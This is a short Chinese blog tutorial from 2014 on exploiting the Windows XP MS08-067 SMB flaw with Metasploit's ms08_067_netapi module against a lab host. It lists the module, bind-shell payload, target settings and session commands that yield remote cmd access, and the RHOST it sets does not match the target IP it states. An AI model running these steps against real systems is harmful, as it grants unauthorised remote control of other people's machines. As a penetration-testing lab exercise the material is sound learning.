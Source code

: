 title: 'metasploit利用ms08_067'
date: 2014-10-29 22:11
tags: metasploit
---


#（1）测试环境
<!--more-->

     目标主机  XP SP3 简体中文版   IP  192.168.49.128

#（2）测试过程

1）选择exploit模块    use exploit/windows/smb/ms08_067_netapi
      如果不知道ms08_067的具体位置  可以使用search ms08_067
     2)选择payload      set PAYLOAD windows/shell/bind_tcp
查看需要设置的参数  show options
![](http://img.blog.csdn.net/20141029215838917)



3)设置目标主机  set RHOST 192.168.40.128
设置目标主机端口  set LPORT 5555
        设置目标的版本号  使用 show targets 查看版本号



![](http://img.blog.csdn.net/20141029215844128)





    可以看到 sp3 简体中文版的id 是 41
  set TARGET 41
![](http://img.blog.csdn.net/20141029215848605)





         4)查看所有选项是否设置好  show options
![](http://img.blog.csdn.net/20141029215852895)






#（3）进行渗透测试    exploit

      
等待一段时间后，获取目标主机的cmd权限
![](http://img.blog.csdn.net/20141029215947640)






#（4）将对目标主机的控制权保存到sessions中

  
命令：  sessions -i 1重新获取对目标主机的控制权
说明：我的BT5是英文版的，不支持中文
![](http://img.blog.csdn.net/20141029215904392)





